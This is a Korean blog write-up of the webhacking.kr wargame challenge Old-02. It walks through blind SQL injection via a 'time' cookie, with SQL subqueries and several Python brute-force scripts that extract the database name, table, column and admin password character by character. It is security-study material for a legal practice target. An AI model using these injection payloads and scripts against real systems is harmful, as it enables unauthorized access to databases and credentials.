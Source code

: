 ```yaml
---
title: WEB-Old-02
date: 2021-03-01 11:35:15 +09:00
categories: [Study, Webhacking.kr]
tags: [wargame, web]     # TAG names should always be lowercase
math: true
mermaid: true
---
```


## Old-02
### Source code
```html
<!—
2021-03-01 06:43:16
—>
<h2>Restricted area</h2>Hello stranger. Your IP is logging...<!-- if you access admin.php i will kick your ass -→
```
https://webhacking.kr/challenge/web-02/admin.php 링크로 들어가면 password를 찾아야 한다는 것을 확인할 수 있다.
![](assets/img/_POST/WEB-Old-02/비밀번호.png)
이제 비밀번호를 찾아야 함.<br>
쿠키에 time값이 있다.<br>
쿠기 time값에 1을 입력해보았더니 시간 값이 아래와 같이 변화한 것을 확인할 수 있었다.<br>
![](assets/img/_POST/WEB-Old-02/1입력.png)<br>

데이터 베이스에 pw가 있을것이기 때문에, table개수를 sql문을 이용하여 찾아낸다.
```sql
select count(table_name) from information_schema.tables where table_scheme=database()
```
![](assets/img/_POST/WEB-Old-02/테이블개수2개.png)
테이블의 이름을 찾기 위해 테이블 이름의 길이를 찾는다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_1.png)
첫 번째 테이블의 이름은 13글자이다.
```sql
(select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름길이_2.png)
두 번째 테이블의 이름은 3글자이다.

```sql
(select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,2,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
```sql
(select ascii(substr(table_name,3,1)) from information_schema.tables where table_schema=database() limit 1,1)
```
![](assets/img/_POST/WEB-Old-02/테이블이름_2_1번째_108.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_2번째_111.png)
![](assets/img/_POST/WEB-Old-02/테이블이름_2_3번째_103.png)

두 번째 테이블 이름은 **log**이다.<br>
첫 번째 테이블 이름은 너무 길어서 이 방법으로 하면 시간이 너무 오래 걸린다.<br>
따라서 코드를 작성하여 테이블의 이름을 구하고자 한다. 테이블 이름을 구하기에 앞서 먼저 database의 이름을 알아내서 편하게 테이블이름을 찾아보도록한다.<br>

```php
import requests

url = 'https://webhacking.kr/challenge/web-02/'
db = ''
bye = 0

for i in range(1,50):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID; time=0||if(ord(substr((select database()),{},1))={},1,0)".format(i,j)}
        
        res = requests.get(url, cookies=c)
				# 응답 패킷을 res에 저장한다.
        #print("i : {}, j : {}".format(i, j))
        if res.text.find("09:00:01") != -1:
            db += chr(j)
            print(db)
            break
            # 문자열을 찾지 못하면 -1을 반환
            # 참이면, 09:00:01로 1초를 반환하고 false일시 0초를 반환한다.
        if j == 132:
            # 마지막까지 갔다는 것은 db이름 끝까지 구해졌다는 의미이다.
            bye=1
            break
print("database : {}".format(db))
```
![](assets/img/_POST/WEB-Old-02/데이터베이스이름_chall2.png)

database이름은 chall2이다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
first_table=''
bye = 0

for i in range(1,14):
    if bye == 1:
        break
    for j in range(33,133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select table_name from information_schema.tables where table_schema='chall2' limit 0,1),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find('09:00:01') != -1 :
            print(chr(j))
            first_table += chr(j)
            break
        if j == 132:
            bye = 1
            break
print("first table name : {}".format(first_table))
```
![](assets/img/_POST/WEB-Old-02/테이블이름_1.png)<br>
테이블 이름은 admin_area_pw이다.
이제, admin_area_pw 테이블에 있는 컬럼의 이름을 찾야야한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
column_name=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select column_name from information_schema.columns where table_name='admin_area_pw'),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            column_name+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("column_name : {}".format(column_name))
```
![](assets/img/_POST/WEB-Old-02/테이블 컬럼이름.png)<br>
컬럼 이름을 찾았으니, 컬럼 개수를 찾아서 내용을 봐야 한다.
```sql
(select count(pw) from admin_area_pw)
```
![](assets/img/_POST/WEB-Old-02/pw컬럼개수.png)<br>
컬럼 개수가 1개 라는 것을 찾았으니 이 컬럼의 내용을 찾아서 pw을 찾아내야 한다.
```python
import requests

url = "https://webhacking.kr/challenge/web-02/"
bye = 0
pw=''

for i in range(1, 50):
    if bye == 1:
        break
    for j in range(33, 133):
        c = {"cookie":"PHPSESSID=나의 세션ID;time=0|| if(ord(substr((select pw from admin_area_pw),{},1))={},1,0)".format(i,j)}
        res = requests.get(url, cookies=c)
        if res.text.find("09:00:01") != -1:
            print(chr(j))
            pw+=chr(j)
            break
        if j == 132:
            bye = 1
            break
print("pw : {}".format(pw))
```
![](assets/img/_POST/WEB-Old-02/pw.png)<br>
끝!

<aside>
<span style="font-size:20px; font-weight:bold;">⛳ kudos_to_beistlab</span>
</aside>